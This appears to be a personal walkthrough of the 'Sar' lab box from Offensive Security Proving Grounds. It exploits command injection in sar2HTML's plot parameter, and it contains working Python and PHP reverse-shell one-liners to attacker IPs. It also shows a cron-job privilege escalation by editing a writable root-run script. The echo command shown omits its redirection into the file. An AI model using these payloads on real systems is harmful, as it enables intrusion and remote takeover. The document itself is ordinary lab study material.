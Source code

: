 ```yaml
---
layout: posts
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the box **"Sar"** exploiting sar2HTML via Remote Code Execution (RCE)
- **Box Location:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy
- **Starting Location:** Kali VM in the same subnet

- - - 

### Step 1: Network Scanning
Perform a stealth scan of the entire subnet to identify target machine
```
nmap -sS [ip range]
```

- identify open ports
- open ip address in browser
  * shows default Apache page

- - -

### Step 2: Directory Brute Force
Perform a directory brute force with the tool of your choice
```
gobuster dir -u [url] -w [path to wordlist]
```
- identifies robot.txt
- Download the file with *curl* and inspect
```
curl [url]/robots.txt
```
```
cat robots.txt
```
  - text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server

- - -

### Step 3: Research sar2HTML for vulnerabilities
- Research to find **sar2HTML** exploit
  * Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
  * Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
    * Example: **http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd**

- - - 

### Now I want a reverse shell
- At least a few options:
 1. Use Python or Perl command to take reverse shell
 2. Metaploit to create a reverse connectdion file and u pload it on target using wget 
 3. If target has NetCut utility, it can take the reverse connection

### Attempt NetCut utility
  - Run nc command to see if it has output
    - > nc -help
    - any return on output means it is available (does not work here)
### Attempt Python or Perl package
  - Run python help command to verify any output
    - > python3 --help
    - This works

Example command used with RCE:
```
python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```
```
nc -lvp 1234
```
- Gain stable shell access:

> python3 -c ‘import pty;pty.spawn(“/bin/bash”)’

- **user flag can be found here** (/home/love/Desktop/user.txt)
- - -
### Gain Root
  - Find exploits based on OS and kernel versions
    - no luck
  - Check weak file permission and processes
    - Found a **cron job** is being run as a root user
      - > cat /etc/crontab
    - Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**
    - Navigate to /var/www/html/ and see what is there
      - finally.sh is calling write.sh
      - write.sh is create a folder in temp directory
      - the command **ls -l** shows we can edit write.sh
      - Add a php reverse connection command into write.sh
```
php -r ‘$sock=fsockopen(“192.168.1.20”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’
```
  * IP address = attacker machine (mine)
  * Setup listener **nc -lvp 4444**
  * Wait 5 mins for cron job
  - **root flag: cat /root/root.txt**

### Echo the php script into the write.sh file
```
echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```
- echo requires a \ in front of a $ and " (probably more)




